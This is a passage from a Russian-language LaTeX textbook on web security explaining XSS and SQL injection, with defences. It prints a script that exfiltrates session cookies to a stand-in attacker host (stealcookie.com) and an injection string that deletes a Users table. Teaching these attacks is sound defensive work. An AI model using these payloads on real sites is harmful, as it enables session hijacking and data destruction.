Скрипт может получить доступ к cookie-файлам данного сайта, например с аутентификатором, вставить гиперссылки на свой сайт под видом доверенных ссылок. Вставленные гиперссылки могут содержать информацию пользователя.

Скрипт также может выполнить последовательность HTTP GET- и POST-запросов на веб-сайт для выполнения действий от имени пользователя. Например вирусно распространить вредоносный JavaScript код со страницы одного пользователя на страницы всех друзей, друзей друзей и~т.\,д., а затем удалить все данные пользователя. Атака может привести к уничтожению социальной сети.

Приведём пример кражи cookie-файла веб-сайта, который имеет уязвимость на вставку текста, содержащего исполняемый браузером код.

%Когда браузер первый раз обращается к сайту, веб-приложение может выслать вместе с HTML страницей cookie-файл, хранящий текстовую строку последовательностей

Пусть аутентификатор пользователя в cookie-файле сайта \texttt{myemail.com} содержит
\begin{center} \begin{verbatim}
auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

Пусть текстовое сообщение, размещённое пользователем, содержит скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

Тогда браузеры всех пользователей, которым показывается сообщение, при загрузке страницы отправят HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он сможет заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.
%Браузер самостоятельно не может отослать данные на другой сайт, отличный от текущего, поэтому передаваемая информация содержится в гиперссылках.

%(например, JavaScript код), либо программным обеспечением, генерирующим HTML-страницу для выдачи клиенту $B$ (например, PHP код). Цель XSS атаки -- либо выполнение JavaScript кода браузером клиента, либо выполнение скриптового кода на веб-сервере при запросе клиента к нему.

%Простой пример -- веб-форум. Пользователи вводят в формы текстовые сообщения, которые запоминаются в БД и показываются другим пользователям. Страница форума генерируется каждый раз заново при запросе пользователей информационной системой. Генерирование часто происходит из шаблона страницы, который содержит и базовый статический HTML код страницы, и исполняемый код скрипта для вставки динамического содержания на основе запроса к базе данных. Как правило, злоумышленник пользуется во время генерирования страницы некорректным экранированием текста, введённого им в формах ввода текста веб-страницы, кавычек, слэшей. То есть, текстовые значения полей, которые сохраняются в базе данных веб-сайта и отображаются другим пользователям, содержат исполняемый код злоумышленника.

На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введённого пользователем текста: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и~др., а также в обработке кодировок символов.


\section{SQL-инъекции}
\selectlanguage{russian}

Второй классической уязвимостью веб-приложений являются SQL-инъекции (\langen{SQL injection}), когда пользователь имеет возможность поменять смысл запроса к базе данных веб-сервера. Запрос делается в виде текстовой строки на скриптовом языке SQL. Например, выражение
\begin{verbatim}
"SELECT * FROM Users WHERE Name = '" + username + "';"
\end{verbatim}
предназначено для получения информации о пользователе, имя (логин) которого задан переменной \texttt{username}. Однако если пользователь вместо имени введёт строку вида
\begin{center} \begin{verbatim}
john';  DELETE * FROM Users;  SELECT * FROM Users WHERE
  Name = 'john,
\end{verbatim} \end{center}
то выражение превратится в три SQL-операции:

\begin{verbatim}
-- запрос о пользователе john
SELECT * FROM Users WHERE Name = 'john';
-- удаление всех пользователей
DELETE FROM Users;
-- запрос о пользователе john
SELECT * FROM Users WHERE Name = 'john';
\end{verbatim}
При выполнении этого SQL-запроса к базе данных все записи пользователей будут удалены.

Уязвимости в SQL-выражениях являются частными случаями уязвимостей, связанных с использованием сложных систем с разными языками управления данными и, следовательно, с разными системами экранирования специальных символов и контроля над типом данных. Когда веб-сервер принимает от клиента данные, закодированные обычно с помощью <<application/x-www-form-urlencoded>>~\cite{html4:1999}, специальные символы (пробелы, неалфавитные символы и~т.\,д.) корректно экранируются браузером и восстанавливаются непосредственно веб-сервером или стандартными программными библиотеками. Аналогично, когда SQL-сервер передаёт данные клиентской библиотеке или принимает их от неё, внутренним протоколом общения с SQL-сервером происходит кодировка текста, который является частью пользовательских данных. Однако на стыке контекстов -- в тот момент, когда программа, выполняющаяся на веб-сервере, уже приняла данные от пользователя по HTTP-протоколу\index{протокол!HTTP} и собирается передать их SQL-серверу в качестве составной части SQL-команды -- перед программистом стоит сложная задача учёта в худшем случае трёх контекстов и кодировок: входного контекста протокола общения с клиентом (HTTP), контекста языка программирования (с соответствующим оформлением и экранированием специальных символов в текстовых константах) и контекста языка управления данными SQL-сервера.

Ситуация усложняется тем, что программист может являться специалистом в языке программирования, но может быть не знаком с особенностями языка SQL или, что чаще, конкретным диалектом языка SQL, используемым СУБД.

Метод защиты заключается в \emph{разделении} кода и данных. Для защиты от приведённых атак на базу данных следует использовать параметрические запросы к базе данных с \emph{фиксированным} SQL-выражением. Например, в JDBC~\cite{jdbc:2006}:
\begin{verbatim}
PreparedStatement p = conn.prepareStatement(
    "SELECT * FROM Users WHERE Name=?");
p.setString(1, username);
\end{verbatim}

Таким образом, задача корректного оформления текстовых данных для передачи на SQL-сервер перекладывается на драйвер общения с СУБД, в котором эта задача обычно решена корректно авторами драйвера, хорошо знающими особенности протокола и языка управления данными сервера.

